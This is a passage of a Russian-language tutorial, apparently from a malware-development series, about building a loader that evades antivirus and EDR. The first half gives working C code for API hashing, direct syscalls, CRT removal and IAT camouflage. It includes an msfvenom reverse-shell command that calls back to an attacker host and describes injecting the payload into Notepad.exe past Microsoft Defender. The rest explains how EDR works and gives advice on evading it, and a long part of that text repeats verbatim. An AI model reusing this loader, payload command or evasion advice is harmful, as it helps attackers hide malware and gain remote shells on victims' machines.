if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) {
CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
// Хэшируем каждое имя функции `pFunctionName`
// Если оба хэша равны, то мы нашли нужную функцию
if (dwApiNameHash == HASHA(pFunctionName)) {
return pFunctionAddress;
}
}
return NULL;
}
HMODULE GetModuleHandleH(DWORD dwModuleNameHash) {
if (dwModuleNameHash == NULL)
return NULL;
#ifdef _WIN64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif
PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
PLDR_DATA_TABLE_ENTRY pDte = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);
while (pDte) {
if (pDte->FullDllName.Length != NULL && pDte->FullDllName.Length < MAX_PATH) {
// Преобразование `FullDllName.Buffer` в строку верхнего регистра
CHAR UpperCaseDllName[MAX_PATH];
DWORD i = 0;
while (pDte->FullDllName.Buffer[i]) {
UpperCaseDllName[i] = (CHAR)toupper(pDte->FullDllName.Buffer[i]);
i++;
}
UpperCaseDllName[i] = '\0';
// Хэшируем `UpperCaseDllName` и сравниваем значение хэша с входным `dwModuleNameHash`
if (HASHA(UpperCaseDllName) == dwModuleNameHash)
return (HMODULE)(pDte->InInitializationOrderLinks.Flink);
}
else {
break;
}
pDte = *(PLDR_DATA_TABLE_ENTRY*)(pDte);
}
return NULL;
}Файл заголовка
Перед продолжением необходимо создать новый файл заголовка, typedef.h, чтобы определить используемые WinAPI в виде указателей на функции для ясности и возможности поддержки. Common.h будет необходимо включить файл заголовка typedef.h с помощью #include "typedef.h".
typedef.h
C:
#pragma once
#include <Windows.h>
typedef ULONGLONG(WINAPI* fnGetTickCount64)();
typedef HANDLE(WINAPI* fnOpenProcess)(DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId);
typedef LRESULT(WINAPI* fnCallNextHookEx)(HHOOK hhk, int nCode, WPARAM wParam, LPARAM lParam);
typedef HHOOK(WINAPI* fnSetWindowsHookExW)(int idHook, HOOKPROC lpfn, HINSTANCE hmod, DWORD dwThreadId);
typedef BOOL(WINAPI* fnGetMessageW)(LPMSG lpMsg, HWND hWnd, UINT wMsgFilterMin, UINT wMsgFilterMax);
typedef LRESULT(WINAPI* fnDefWindowProcW)(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam);
typedef BOOL(WINAPI* fnUnhookWindowsHookEx)(HHOOK hhk);
typedef DWORD(WINAPI* fnGetModuleFileNameW)(HMODULE hModule, LPWSTR lpFilename, DWORD nSize);
typedef HANDLE(WINAPI* fnCreateFileW)(LPCWSTR lpFileName, DWORD dwDesiredAccess, DWORD dwShareMode, LPSECURITY_ATTRIBUTES lpSecurityAttributes, DWORD dwCreationDisposition, DWORD dwFlagsAndAttributes, HANDLE hTemplateFile);
typedef BOOL(WINAPI* fnSetFileInformationByHandle)(HANDLE hFile, FILE_INFO_BY_HANDLE_CLASS FileInformationClass, LPVOID lpFileInformation, DWORD dwBufferSize);
typedef BOOL(WINAPI* fnCloseHandle)(HANDLE hObject);Структура API_HASHING
Далее в Common.h определяется новая структура API_HASHING, которая используется для хранения адресов используемых WinAPI, делая их более доступными для использования в функциях реализации.
Common.h
C:
typedef struct _API_HASHING {
fnGetTickCount64 pGetTickCount64;
fnOpenProcess pOpenProcess;
fnCallNextHookEx pCallNextHookEx;
fnSetWindowsHookExW pSetWindowsHookExW;
fnGetMessageW pGetMessageW;
fnDefWindowProcW pDefWindowProcW;
fnUnhookWindowsHookEx pUnhookWindowsHookEx;
fnGetModuleFileNameW pGetModuleFileNameW;
fnCreateFileW pCreateFileW;
fnSetFileInformationByHandle pSetFileInformationByHandle;
fnCloseHandle pCloseHandle;
} API_HASHING, *PAPI_HASHING;Обновление VX_Table
Функции GetModuleHandleH и GetProcAddressH должны быть использованы для инициализации элементов структуры API_HASHING. Затем функция InitializeSyscalls использует эти функции для инициализации структуры VX_TABLE, которая используется для вызова syscalls.
C:
// ...
API_HASHING g_Api = {0};
BOOL InitializeSyscalls() {
// Получить PEB
PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
return FALSE;
// Получить модуль NTDLL
PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Получить EAT из NTDLL
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
return FALSE;
g_Sys.NtCreateSection.uHash = NtCreateSection_JOAA;
g_Sys.NtMapViewOfSection.uHash = NtMapViewOfSection_JOAA;
g_Sys.NtUnmapViewOfSection.uHash = NtUnmapViewOfSection_JOAA;
g_Sys.NtClose.uHash = NtClose_JOAA;
g_Sys.NtCreateThreadEx.uHash = NtCreateThreadEx_JOAA;
g_Sys.NtWaitForSingleObject.uHash = NtWaitForSingleObject_JOAA;
g_Sys.NtQuerySystemInformation.uHash = NtQuerySystemInformation_JOAA;
g_Sys.NtDelayExecution.uHash = NtDelayExecution_JOAA;
// Инициализировать syscalls
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtQuerySystemInformation))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtDelayExecution))
return FALSE;
// Экспортированный User32.dll
g_Api.pCallNextHookEx = (fnCallNextHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), CallNextHookEx_JOAA);
g_Api.pDefWindowProcW = (fnDefWindowProcW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), DefWindowProcW_JOAA);
g_Api.pGetMessageW = (fnGetMessageW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), GetMessageW_JOAA);
g_Api.pSetWindowsHookExW = (fnSetWindowsHookExW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), SetWindowsHookExW_JOAA);
g_Api.pUnhookWindowsHookEx = (fnUnhookWindowsHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), UnhookWindowsHookEx_JOAA);
if (g_Api.pCallNextHookEx == NULL || g_Api.pDefWindowProcW == NULL || g_Api.pGetMessageW == NULL || g_Api.pSetWindowsHookExW == NULL || g_Api.pUnhookWindowsHookEx == NULL)
return FALSE;
// Экспортированный Kernel32.dll
g_Api.pGetModuleFileNameW = (fnGetModuleFileNameW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetModuleFileNameW_JOAA);
g_Api.pCloseHandle = (fnCloseHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CloseHandle_JOAA);
g_Api.pCreateFileW = (fnCreateFileW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CreateFileW_JOAA);
g_Api.pGetTickCount64 = (fnGetTickCount64)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetTickCount64_JOAA);
g_Api.pOpenProcess = (fnOpenProcess)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), OpenProcess_JOAA);
g_Api.pSetFileInformationByHandle = (fnSetFileInformationByHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), SetFileInformationByHandle_JOAA);
if (g_Api.pGetModuleFileNameW == NULL || g_Api.pCloseHandle == NULL || g_Api.pCreateFileW == NULL || g_Api.pGetTickCount64 == NULL || g_Api.pOpenProcess == NULL || g_Api.pSetFileInformationByHandle == NULL)
return FALSE;
return TRUE;
}Хеши WinAPI генерируются проектом Hasher, как показано ниже.
Следующий шаг - использовать структуру g_Api для вызова всех функций WinAPI, добавив перед каждой из них префикс g_Api.<WinAPI>. Например, функция OpenProcess должна вызываться как g_Api.pOpenProcess.
Ошибка хеширования API SystemFunction032
При попытке применить хеширование API к функции SystemFunction032 (которая не включена в структуру g_Api), произойдет следующее исключение.
При попытке выполнить SystemFunction032 по адресу 0x00007FFC42C09FF2 выбрасывается исключение. Похоже, это действительный адрес, так как он извлекается с помощью следующей строки кода:
C:
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddressH(LoadLibraryA("Advapi32"), SystemFunction032_JOAA);Используйте xdbg, чтобы проверить адрес и понять причину проблемы
Функции переадресации
Адрес, полученный с помощью GetProcAddressH, не указывает на функцию, а указывает на строку "CRYPTSP.SystemFunction032". Это указывает на наличие функции переадресации, когда функция, экспортированная из одной DLL (DLL A), находится в другой DLL (DLL B).
Таким образом, вместо загрузки Advapi32.dll (DLL A) для поиска SystemFunction032 следует загрузить Cryptsp.dll (DLL B), так как он содержит фактический адрес. Это указывается строкой "CRYPTSP.SystemFunction032", которая дает намек на расположение функции. Это необходимо, потому что GetProcAddressH не обрабатывает функции переадресации. Внесением этого незначительного изменения код теперь будет успешно компилироваться и выполняться.
Удаление библиотеки CRT
Следуя инструкциям, описанным в Уменьшение вероятности детекта зверька | Цикл статей "Изучение вредоносных программ", можно удалить библиотеку CRT.
Ошибка возникнет из-за использования функций printf и wprintf. Чтобы решить эту проблему, можно использовать пользовательскую функцию для замены этих функций. Функциональность печати будет включена только при включенном режиме отладки. Замены функций printf и wprintf следует сохранить в новом файле с именем Debug.h, который должен быть включен во все файлы, которые вызывают printf или wprintf.
Debug.h:
C:
#pragma once#include <Windows.h>// uncomment to enable debug mode
//\
#define DEBUG
#ifdef DEBUG// wprintf replacement
#define PRINTW( STR, ... ) \
if (1) { \
LPWSTR buf = (LPWSTR)HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 ); \
if ( buf != NULL ) { \
int len = wsprintfW( buf, STR, __VA_ARGS__ ); \
WriteConsoleW( GetStdHandle( STD_OUTPUT_HANDLE ), buf, len, NULL, NULL ); \
HeapFree( GetProcessHeap(), 0, buf ); \
} \
} // printf replacement
#define PRINTA( STR, ... ) \
if (1) { \
LPSTR buf = (LPSTR)HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 ); \
if ( buf != NULL ) { \
int len = wsprintfA( buf, STR, __VA_ARGS__ ); \
WriteConsoleA( GetStdHandle( STD_OUTPUT_HANDLE ), buf, len, NULL, NULL ); \
HeapFree( GetProcessHeap(), 0, buf ); \
} \
} #endif // DEBUG
C:
// Only print if debug mode is enabled
#ifdef DEBUGPRINTA("...");
#endifЕсли попытаться скомпилировать после этого, появятся другие ошибки, потому что функции memcpy, memset, toupper также импортируются из библиотеки CRT. Чтобы исправить эту проблему, необходимо добавить пользовательские функции, которые будут выполнять ту же логику. Эти функции должны быть сохранены в файле WinApi.c, который показан ниже.
WinApi.c
C:
CHAR _toUpper(CHAR C)
{
if (C >= 'a' && C <= 'z')
return C - 'a' + 'A';
return C;
}
PVOID _memcpy(PVOID Destination, PVOID Source, SIZE_T Size)
{
for (volatile int i = 0; i < Size; i++) {
((BYTE*)Destination)[i] = ((BYTE*)Source)[i];
}
return Destination;
}
extern void* __cdecl memset(void*, int, size_t);
#pragma intrinsic(memset)#pragma function(memset)void* __cdecl memset(void* Destination, int Value, size_t Size) {
unsigned char* p = (unsigned char*)Destination;
while (Size > 0) {
*p = (unsigned char)Value;
p++;
Size--;
}
return Destination;
}Есть еще одна ошибка, которую нужно решить: неопределенный символ _fltused. Символ _fltused - это глобальная переменная в библиотеке CRT, которая используется для определения, были ли в программе использованы операции с плавающей запятой. Создав новую переменную с именем _fltused и установив ее значение на ноль, ошибка будет исправлена. Это отражает инициализацию переменной библиотекой CRT, что приведет к тому, что компилятор построит проект без ошибок.
Камуфляж IAT
В качестве последнего шага следует добавить заголовочный файл IatCamouflage.h, который содержит тот же код, что представлен тут Уменьшение вероятности детекта зверька | Цикл статей "Изучение вредоносных программ".
IatCamouflage.h должен быть включен только в файл main.c и вызван в начале основной функции, чтобы таблица адресов импорта реализации выглядела добросовестно.
Финальный результат
Эта демонстрация использует обратный TCP-шелл от Msfvenom, который генерируется с помощью команды, представленной ниже.
Код:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.16.111 LPORT=4444 -f raw -o reverse.binIAT AV.exe показан ниже.
Далее AV.exe внедряется в Notepad.exe с включенным Microsoft Defender.
Успешное обратное соединение устанавливается с атакующей машиной, и выполняется демонстрационная команда.
Процесс Notepad.exe имеет PID 20288, который совпадает с PID на предыдущем изображении.
Про Endpoint Detection and Response (EDR)
Введение
Endpoint Detection and Response (EDR) — это решение безопасности, которое обнаруживает и реагирует на угрозы вроде вымогательского ПО и вредоносного программного обеспечения. Его работа основана на постоянном мониторинге конечных точек в поисках подозрительной активности путем сбора данных о таких событиях, как системные журналы, сетевой трафик, межпроцессное взаимодействие (IPC), вызовы RPC, попытки аутентификации и активность пользователя.
Установив EDR на конечные точки, вы будете собирать данные, которые затем будут анализироваться и коррелироваться для выявления потенциальных угроз. Когда угроза обнаружена, решения EDR могут автоматически реагировать, например, изолируя затронутую конечную точку от сети или предпринимая другие предопределенные действия, такие как удаление вредоносных файлов или завершение подозрительных процессов.
Кроме того, EDR будут запускать программы в изолированных средах, а затем продолжат мониторить их на предмет вредоносного поведения.
EDR следует использовать как часть большей стратегии кибербезопасности и вместе с другими решениями, такими как файрволы, системы обнаружения вторжений (IDS), системы предотвращения вторжений (IPS) и решения для управления информацией и событиями безопасности (SIEM). Эксперты по кибербезопасности также используют журналы EDR для поиска угроз и IoC, которые могли бы быть упущены решением.
Как работают EDR
Агент EDR обычно состоит из двух частей: приложения в режиме пользователя и драйвера в режиме ядра. Эти части собирают информацию различными способами, упомянутыми ранее.
Собранные данные затем анализируются и сравниваются с сигнатурами и вредоносным поведением. Обнаружив вредоносное или подозрительное поведение, EDR будет регистрировать это в панели безопасности. Настройки EDR очень настраиваемы, и в зависимости от их настроек он может либо предпринимать действие самостоятельно, либо просто предоставлять предупреждение. Ниже представлено изображение из одной из статей Microsoft, показывающее панель безопасности для Microsoft Defender For Endpoint с несколькими оповещениями.
Обнаружение по сигнатурами
Помните, что антивирусы, как правило, ограничиваются базовым обнаружением по сигнатурам и могут быть легко обойдены. Хотя EDR намного сложнее и содержит больше функций, он включает в себя функции AV для обнаружения известного вредоносного ПО. Более того, защитники могут расширить возможности обнаружения EDR, создавая пользовательские правила.
Обнаружение на основе поведения
Обнаружение на основе поведения и в реальном времени - одна из основных функций EDR. Он может мониторить запущенные процессы несколькими методами, которые упоминаются ниже.
Перехват в пользовательском режиме (Userland Hooking)
EDR используют перехват в пользовательском режиме для обнаружения вредоносных аргументов, переданных функциям, а также для просмотра полезных нагрузок после их расшифровки. Ниже представленное изображение дополнительно иллюстрирует перехват в пользовательском режиме в действии.
Отслеживание событий для Windows (ETW)
ETW или Отслеживание событий для Windows - это механизм в режиме ядра, встроенный в операционную систему Windows, который отслеживает и записывает события, которые инициируются драйверами и приложениями в режиме пользователя на текущей системе.
Следующее изображение взято из статьи Microsoft "Инструментирование вашего кода с помощью ETW", на котором показана архитектура ETW.
Отслеживание событий для Windows (ETW)
ETW может регистрировать события, такие как создание и завершение процесса, загрузка и выгрузка драйверов устройств, доступ к файлам и реестру, а также события ввода пользователя. Он также может захватывать сетевые события, регистрируя установленные соединения и запросы аутентификации.
EDR могут использовать этот встроенный механизм для дальнейшего расширения своих возможностей по сбору информации о конкретной конечной точке. С другой стороны, такие инструменты, как Sysmon и Procmon, также используют ETW.
Интерфейс сканирования против вредоносного ПО (AMSI)
AMSI или Интерфейс сканирования против вредоносного ПО - это еще один механизм безопасности, встроенный в операционную систему Windows, начиная с Windows 10. Он позволяет стороннему программному обеспечению интегрироваться с ним и сканировать и обнаруживать вредоносные приложения.
Следующее изображение взято из статьи Microsoft "Как интерфейс сканирования против вредоносного ПО (AMSI) помогает вам защищаться от вредоносного ПО", на котором визуализирована архитектура AMSI.
С помощью AMSI программное обеспечение безопасности способно анализировать скрипты, код и сборки .NET, которые выполняются и динамически внедряются, такие как написанные на JavaScript, VBScript, PowerShell или других языках сценариев. Кроме того, AMSI может сканировать сборки .NET, которые являются программами, созданными с использованием фреймворка Microsoft .NET и написанными на C# и VB.NET.
AMSI используется через группу API, которые Microsoft классифицирует следующим образом:
Перечисления интерфейса сканирования против вредоносного ПО - перечисления, используемые элементами программирования AMSI.
Функции интерфейса сканирования против вредоносного ПО - функции, которые приложение может вызвать для запроса сканирования. На изображении ниже показаны доступные функции сканирования AMSI.

Отслеживание событий для противовирусного сканирования (AMSI) Интерфейсы интерфейса сканирования против вредоносного ПО - это COM-интерфейсы, составляющие API AMSI.
Основная реализация API
AMSI предоставляется через amsi.dll, который является основной DLL, используемой AMSI для выполнения своих операций (ссылаясь на вышеупомянутые функции). Подсистема безопасности операционной системы и сторонние продукты безопасности, интегрированные с AMSI, - это еще два набора DLL, используемых AMSI.
Обнаружение в памяти
Обнаружения в основе памяти относятся к IoC и сигнатурам, которые создаются после выполнения вашей полезной нагрузки.
Эти IoC могут быть выделениями кучи, трамплинами при подключении API, стеками потоков и секциями памяти RWX.
Детект происходит после выполнения, когда выполняется полезная нагрузка, где можно вносить изменения в ее расположение в памяти.
Обнаружение в памяти - это продвинутая концепция и один из самых эффективных способов обнаружения выполнения вредоносного кода.
Обратные вызовы ядра и драйверы Minifilter
Обратные вызовы ядра - это механизм, используемый в операционной системе Windows, который позволяет коду в режиме ядра регистрировать функции, которые будут вызываться ОС в определенные моменты или когда происходит событие. Некоторые примеры событий: создание файла, изменение ключа реестра и загрузка DLL.
Когда происходит событие, ОС вызывает зарегистрированную функцию обратного вызова и уведомляет код в режиме ядра о том, что это произошло. Этот "код в режиме ядра" может быть драйвером устройства, созданным продуктами безопасности, в данном случае - это EDR.
Стоит отметить, что плохо написанные или неправильно настроенные обратные вызовы могут вызвать нестабильность системы, проблемы с производительностью или даже уязвимости безопасности, поэтому этот метод не используется всеми производителями EDR.
Некоторые примеры обратных вызовов перечислены ниже.
PspCreateProcessNotifyRoutine - регистрирует обратный вызов, предоставленный драйвером, который будет вызываться каждый раз при создании или удалении процесса.
PspLoadImageNotifyRoutine - регистрирует обратный вызов, предоставленный драйвером, который будет вызываться каждый раз, когда образ(DLL или EXE) загружается (или отображается) в памяти.
CmRegisterCallbackEx - регистрирует обратный вызов, предоставленный драйвером, который будет вызываться каждый раз, когда поток работает с реестром. Для перехвата, изучения и потенциальной блокировки событий ввода-вывода Microsoft рекомендует поставщикам безопасности использовать драйверы minifilter.
Драйверы minifilter используются в операционной системе Windows для перехвата и модификации запросов ввода-вывода между приложениями и файловой системой. Эти драйверы работают на уровне между файловой системой и драйвером устройства, который обрабатывает физические запросы ввода-вывода. EDR может использовать драйверы minifilter для регистрации обратного вызова для каждой операции ввода-вывода, которая уведомит драйвер о конкретных действиях, таких как создание процесса, изменение реестра и т. д.
Кроме того, обратные вызовы ядра могут быть зарегистрированы компонентом Minifilter EDR для получения неизмененных данных напрямую из ядра, а не из ресурсов пользовательского пространства, так как они могут быть подделаны и изменены.
Пример того, как EDR может использовать драйверы minifilter и обратные вызовы ядра, - вызов PspCreateProcessNotifyRoutine для активации EDR для загрузки его DLL в режиме пользователя в созданные процессы, в котором он может выполнять перехват системного вызова, а затем использовать функциональность драйвера minifilter для мониторинга запросов файловой системы ввода-вывода этим вновь созданным процессом.
Сетевые IoC
Процессы, устанавливающие сетевые соединения, вызывают большее подозрение из-за возможности соединения с сервером C&C, контролируемым атакующим. Соединения с сетью будут отслеживаться EDR, и будет сгенерировано предупреждение, когда процесс, который обычно не использует сетевое соединение, начнет это делать. Например, если была выполнена инъекция в процесс notepad.exe, и он начал соединяться с интернетом, это считается высоко подозрительным. Кроме того, анализируются аспекты сетевого соединения, такие как целевой IP-адрес, доменное имя, номер порта и сетевой трафик.
Обход EDR
Обход EDR может быть сложным сначала и требует группы методов и техник, а не полагания на один подход. Причина, по которой требуются несколько методов, заключается в том, что EDR использует более одной техники для мониторинга процесса.
Иногда могут потребоваться несколько реализаций для решения одной и той же проблемы.
Важно помнить, что некоторые техники обхода EDR позволяют загрузчику избежать обнаружения, но не используемой в нем полезный нагрузка C&C. Это может быть связано с несколькими причинами:
Аномалии сети C&C хорошо известны и подписаны EDR. Загрузчик использует прямые/косвенные системные вызовы и успешно избежал обнаружения, но полезная нагрузка C&C этого не делает и по-прежнему использует подключенные функции.
Полезная нагрузка C&C выполнила детектируемую команду, либо намеренно, либо ненамеренно. Такие команды привлекут внимание EDR, и ваша реализация будет обнаружена (например, запустите cmd.exe и выполните команду whoami).
C&C использует узнаваемые именованные дескрипторы IPC или открывает конкретные (напомним, что IPC - это мьютексы, семафоры, сокеты). Например, выполнение команды "load powershell" с использованием Meterpreter приводит к следующему.
По таким и многим другим причинам будет много случаев, когда ваша реализация успешно установит соединение с вашим сервером C2, но будет обнаружена при выполнении некоторых конкретных команд. Поэтому выбор вашего C2 является важным решением для уклонения во время выполнения. Всегда рекомендуется использовать гибкую и поддающуюся модификации структуру C2, а не ограниченную.
Endpoint Detection and Response (EDR) — это решение безопасности, которое обнаруживает и реагирует на угрозы вроде вымогательского ПО и вредоносного программного обеспечения. Его работа основана на постоянном мониторинге конечных точек в поисках подозрительной активности путем сбора данных о таких событиях, как системные журналы, сетевой трафик, межпроцессное взаимодействие (IPC), вызовы RPC, попытки аутентификации и активность пользователя.
Установив EDR на конечные точки, вы будете собирать данные, которые затем будут анализироваться и коррелироваться для выявления потенциальных угроз. Когда угроза обнаружена, решения EDR могут автоматически реагировать, например, изолируя затронутую конечную точку от сети или предпринимая другие предопределенные действия, такие как удаление вредоносных файлов или завершение подозрительных процессов.
Кроме того, EDR будут запускать программы в изолированных средах, а затем продолжат мониторить их на предмет вредоносного поведения.
EDR следует использовать как часть большей стратегии кибербезопасности и вместе с другими решениями, такими как файрволы, системы обнаружения вторжений (IDS), системы предотвращения вторжений (IPS) и решения для управления информацией и событиями безопасности (SIEM). Эксперты по кибербезопасности также используют журналы EDR для поиска угроз и IoC, которые могли бы быть упущены решением.
Как работают EDR
Агент EDR обычно состоит из двух частей: приложения в режиме пользователя и драйвера в режиме ядра. Эти части собирают информацию различными способами, упомянутыми ранее.
Собранные данные затем анализируются и сравниваются с сигнатурами и вредоносным поведением. Обнаружив вредоносное или подозрительное поведение, EDR будет регистрировать это в панели безопасности. Настройки EDR очень настраиваемы, и в зависимости от их настроек он может либо предпринимать действие самостоятельно, либо просто предоставлять предупреждение. Ниже представлено изображение из одной из статей Microsoft, показывающее панель безопасности для Microsoft Defender For Endpoint с несколькими оповещениями.
Обнаружение по сигнатурами
Помните, что антивирусы, как правило, ограничиваются базовым обнаружением по сигнатурам и могут быть легко обойдены. Хотя EDR намного сложнее и содержит больше функций, он включает в себя функции AV для обнаружения известного вредоносного ПО. Более того, защитники могут расширить возможности обнаружения EDR, создавая пользовательские правила.
Обнаружение на основе поведения
Обнаружение на основе поведения и в реальном времени - одна из основных функций EDR. Он может мониторить запущенные процессы несколькими методами, которые упоминаются ниже.
Перехват в пользовательском режиме (Userland Hooking)
EDR используют перехват в пользовательском режиме для обнаружения вредоносных аргументов, переданных функциям, а также для просмотра полезных нагрузок после их расшифровки. Ниже представленное изображение дополнительно иллюстрирует перехват в пользовательском режиме в действии.
Отслеживание событий для Windows (ETW)
ETW или Отслеживание событий для Windows - это механизм в режиме ядра, встроенный в операционную систему Windows, который отслеживает и записывает события, которые инициируются драйверами и приложениями в режиме пользователя на текущей системе.
Следующее изображение взято из статьи Microsoft "Инструментирование вашего кода с помощью ETW", на котором показана архитектура ETW.
Отслеживание событий для Windows (ETW)
ETW может регистрировать события, такие как создание и завершение процесса, загрузка и выгрузка драйверов устройств, доступ к файлам и реестру, а также события ввода пользователя. Он также может захватывать сетевые события, регистрируя установленные соединения и запросы аутентификации.
EDR могут использовать этот встроенный механизм для дальнейшего расширения своих возможностей по сбору информации о конкретной конечной точке. С другой стороны, такие инструменты, как Sysmon и Procmon, также используют ETW.
Интерфейс сканирования против вредоносного ПО (AMSI)
AMSI или Интерфейс сканирования против вредоносного ПО - это еще один механизм безопасности, встроенный в операционную систему Windows, начиная с Windows 10. Он позволяет стороннему программному обеспечению интегрироваться с ним и сканировать и обнаруживать вредоносные приложения.
Следующее изображение взято из статьи Microsoft "Как интерфейс сканирования против вредоносного ПО (AMSI) помогает вам защищаться от вредоносного ПО", на котором визуализирована архитектура AMSI.
С помощью AMSI программное обеспечение безопасности способно анализировать скрипты, код и сборки .NET, которые выполняются и динамически внедряются, такие как написанные на JavaScript, VBScript, PowerShell или других языках сценариев. Кроме того, AMSI может сканировать сборки .NET, которые являются программами, созданными с использованием фреймворка Microsoft .NET и написанными на C# и VB.NET.
AMSI используется через группу API, которые Microsoft классифицирует следующим образом:
Перечисления интерфейса сканирования против вредоносного ПО - перечисления, используемые элементами программирования AMSI.
Функции интерфейса сканирования против вредоносного ПО - функции, которые приложение может вызвать для запроса сканирования. На изображении ниже показаны доступные функции сканирования AMSI.
Отслеживание событий для противовирусного сканирования (AMSI) Интерфейсы интерфейса сканирования против вредоносного ПО - это COM-интерфейсы, составляющие API AMSI.
Основная реализация API
AMSI предоставляется через amsi.dll, который является основной DLL, используемой AMSI для выполнения своих операций (ссылаясь на вышеупомянутые функции). Подсистема безопасности операционной системы и сторонние продукты безопасности, интегрированные с AMSI, - это еще два набора DLL, используемых AMSI.
Обнаружение в памяти
Обнаружения в основе памяти относятся к IoC и сигнатурам, которые создаются после выполнения вашей полезной нагрузки.
Эти IoC могут быть выделениями кучи, трамплинами при подключении API, стеками потоков и секциями памяти RWX.
Детект происходит после выполнения, когда выполняется полезная нагрузка, где можно вносить изменения в ее расположение в памяти.
Обнаружение в памяти - это продвинутая концепция и один из самых эффективных способов обнаружения выполнения вредоносного кода.
Обратные вызовы ядра и драйверы Minifilter
Обратные вызовы ядра - это механизм, используемый в операционной системе Windows, который позволяет коду в режиме ядра регистрировать функции, которые будут вызываться ОС в определенные моменты или когда происходит событие. Некоторые примеры событий: создание файла, изменение ключа реестра и загрузка DLL.
Когда происходит событие, ОС вызывает зарегистрированную функцию обратного вызова и уведомляет код в режиме ядра о том, что это произошло. Этот "код в режиме ядра" может быть драйвером устройства, созданным продуктами безопасности, в данном случае - это EDR.
Стоит отметить, что плохо написанные или неправильно настроенные обратные вызовы могут вызвать нестабильность системы, проблемы с производительностью или даже уязвимости безопасности, поэтому этот метод не используется всеми производителями EDR.
Некоторые примеры обратных вызовов перечислены ниже.
PspCreateProcessNotifyRoutine - регистрирует обратный вызов, предоставленный драйвером, который будет вызываться каждый раз при создании или удалении процесса.
PspLoadImageNotifyRoutine - регистрирует обратный вызов, предоставленный драйвером, который будет вызываться каждый раз, когда образ(DLL или EXE) загружается (или отображается) в памяти.
CmRegisterCallbackEx - регистрирует обратный вызов, предоставленный драйвером, который будет вызываться каждый раз, когда поток работает с реестром. Для перехвата, изучения и потенциальной блокировки событий ввода-вывода Microsoft рекомендует поставщикам безопасности использовать драйверы minifilter.
Драйверы minifilter используются в операционной системе Windows для перехвата и модификации запросов ввода-вывода между приложениями и файловой системой. Эти драйверы работают на уровне между файловой системой и драйвером устройства, который обрабатывает физические запросы ввода-вывода. EDR может использовать драйверы minifilter для регистрации обратного вызова для каждой операции ввода-вывода, которая уведомит драйвер о конкретных действиях, таких как создание процесса, изменение реестра и т. д.
Кроме того, обратные вызовы ядра могут быть зарегистрированы компонентом Minifilter EDR для получения неизмененных данных напрямую из ядра, а не из ресурсов пользовательского пространства, так как они могут быть подделаны и изменены.
